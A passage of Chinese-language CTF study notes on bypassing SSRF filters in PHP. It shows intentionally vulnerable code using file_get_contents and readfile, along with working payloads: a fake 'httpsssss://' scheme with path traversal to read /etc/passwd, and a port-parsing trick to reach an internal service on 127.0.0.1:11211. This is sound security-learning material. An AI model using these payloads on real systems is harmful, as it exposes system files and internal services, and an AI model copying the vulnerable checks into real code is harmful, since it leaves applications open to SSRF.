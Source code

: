 ```php
// ssrf.php
<?php
highlight_file(__FILE__);
if(!preg_match('/^https/is',$_GET['url'])){
die("no hack");
}
echo file_get_contents($_GET['url']);
?>

```

上面的代码限制了url只能是以https开头的路径，那么我们就可以如下：

```php
httpsssss://
```

此时file_get_contents()函数遇到了不认识的伪协议头“httpsssss://”，就会将他当做文件夹，然后再配合目录穿越即可读取文件：

```php
ssrf.php?url=httpsssss://../../../../../../etc/passwd
```

##### URL解析差异

**1.readfile和parse_user函数解析差异绕过指定端口**

```php
<?php
$url = 'http://'. $_GET[url];
$parsed = parse_url($url);
if( $parsed[port] == 80 ){  // 这里限制了我们传过去的url只能是80端口的
	readfile($url);
} else {
	die('Hacker!');
}
```

上述代码限制了我们传过去的url只能是80端口的，但如果我们想去读取11211端口的文件的话，我们可以用以下方法绕过

`ssrf.php?url=127.0.0.1:11211:80/flag.txt`

可以成功读取11211端口flag.txt文件，原理如下图

![1610601312_5fffd36035478c41c2c18.png!small?1610601312696](D:\Typora\note\CTF\web\ctfshow_vip\SSRF.assets\a62b4db733f026cd4bc73bd0aa5ad0b8.jpeg)

两个函数解析host也存在差异

![1610601347_5fffd383dfc1a3982425f.png!small?1610601348433](D:\Typora\note\CTF\web\ctfshow_vip\SSRF.assets\cc15c26e93dfaac450eaa31c71c8d40a.jpeg)

利用这种差异的不同，可以绕过题目中parse_url()函数对指定host的限制

**2.利用curl和parse_url的解析差异绕过指定host**

![1610601386_5fffd3aa565a51587d90c.png!small?1610601386867](D:\Typora\note\CTF\web\ctfshow_vip\SSRF.assets\5ae3d7066929544a036bc1726a07e399.jpeg)

##### Gopher协议

